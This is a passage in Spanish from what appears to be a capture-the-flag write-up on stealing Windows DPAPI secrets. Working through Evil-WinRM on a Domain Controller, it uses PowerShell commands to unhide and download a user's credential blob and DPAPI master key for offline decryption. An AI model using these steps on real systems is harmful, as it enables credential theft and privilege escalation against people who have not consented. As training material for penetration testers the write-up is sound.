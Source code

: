 **¿Qué es DPAPI?**

**DPAPI (Data Protection API)** es una API de Windows que protege datos sensibles como contraseñas y claves mediante criptografía. Su objetivo es asegurar que solo el usuario o equipo autorizado pueda acceder a esa información. Sin embargo, si un atacante tiene acceso al sistema o privilegios elevados, puede extraer o descifrar estos secretos usando herramientas como **Mimikatz** o **Secretsdump**. Esto se convierte en un vector de escalación de privilegios, ya que los secretos protegidos pueden contener credenciales que permiten el acceso a otras cuentas o servicios.

Una vez obtenemos acceso al Domain Controller a través de **Evil-WinRM**, navegamos al directorio donde se almacenan las credenciales protegidas por DPAPI, específicamente en **C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials**. Usamos el comando **dir -force** para visualizar los archivos, luego eliminamos los atributos de oculto y solo lectura (**attrib -h -s**) para poder acceder a ellos. Finalmente, descargamos el archivo que contiene las credenciales con el comando **download** para proceder a su análisis posterior.

{% code overflow="wrap" %}
```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

dir -force

attrib -h -s 

download C4BB96844A5C9DD45D5B6A9859252BA6
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2741_vmware_Zu2NVnO7KZ.png" alt=""><figcaption></figcaption></figure>

Después de descargar el archivo, accedimos al directorio **Microsoft\Protect**, que es donde se guardan los datos de protección relacionados con las credenciales. Navegamos hasta la carpeta correspondiente al SID del usuario **C.Neri**, **S-1-5-21-4024337825-2033394866-2055507597-1115**, y encontramos otro archivo relacionado con las credenciales protegidas.

Realizamos el mismo procedimiento para eliminar los atributos de oculto y solo lectura y procedimos con la descarga del archivo **99cf41a3-a552-4cf7-a8d7-aca2d6f7339b.** En mi caso, si no se elimaba los atributos de oculto y solo lectura el **evil-winrm** nos daba un error.

{% code overflow="wrap" %}
```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\

dir -force

cd S-1-5-21-4024337825-2033394866-2055507597-1115

dir -force

attrib -h -s 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```
{% endcode %}